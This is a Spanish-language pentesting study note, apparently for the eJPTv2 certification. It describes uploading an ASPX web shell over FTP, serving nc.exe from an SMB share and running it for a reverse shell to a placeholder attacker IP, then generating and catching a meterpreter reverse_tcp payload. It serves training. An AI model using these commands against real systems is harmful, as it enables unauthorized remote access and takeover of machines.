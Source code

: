 Normalmente tendremos acceso a FTP, este servicio y el puerto 80 suelen ir muy vinculados entre sí. 

Al tener acceso a este servicio podremos subir archivos y verlos desde el navegador, tendremos que subir un archivo malicioso que nos permita ejecutar comandos desde el navegador.

En Kali linux si usamos el siguiente comando:

````
find / -name cmdasp.aspx 2>/dev/null
`````

Usaremos el comando `cp` para pasarnos ese archivo que nos resulte de la consulta anterior al escritorio para posteriormente subirlo en el servidor ftp mediante `put`.

Al acceder al archivo desde el navegador podremos ejecutar comandos.

Para conseguir un acceso remoto a la máquina tendremos que hacer lo siguiente:

En primer lugar, conseguir el archivo  `nc.exe`

````
find / -name nc.exe 2>/dev/null
`````

La idea es alojar un recurso compartido en la red con el archivo para pasarlo a la máquina víctima.

Para levantar un recurso compartido necesitamos:

````
impacket-smbserver recurso $(pwd) -smb2support
`````

Activaremos la escucha de [[eJPTv2/CONCEPTOS BÁSICOS/1. Netcat]]

Volveremos al navegador en el sitio donde podemos ejecutar comandos y pondremos lo siguiente:

````
\\<IPATACANTE>\recurso\nc.exe -e cmd.exe <IPATACANTE> 443
`````

Mediante esto se nos abrirá una shell en la escucha de netcat. Normalmente se nos abrirá una sesión de administrador, en caso de que no sea así haremos los siguiente:

Crearemos un archivo meterpreter:

````
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Atacante> LPORT=444 (el que queramos) -f exe -o shell.exe
`````

Si está curl o wget instalados lo compartiremos tal y com se explicó en [[eJPTv2/CONCEPTOS BÁSICOS/2. Compartir archivos con servidor http]]. En caso contrario podremos levantar otro recurso compartido y en la máquina victima ir a una carpeta con permiso de escritura. <span style="color:rgb(0, 176, 80)"><span style="color:rgb(255, 192, 0)">(CARPETA TEMP)</span> </span>.

Posterior a esto haremos un copy:

````
copy \\<IPATACANTE>\recurso\shell.exe shell.exe
`````

Abriremos msfconsole y haremos un `use multi/handler`. Indicaremos el LHOST y el LPORT que hubiéramos puesto al crearlo.

En PAYLOAD (windows/meterpreter/reverse_tcp) tendremos que poner el mismo que habíamos puesto al principio cuando se ha creado.
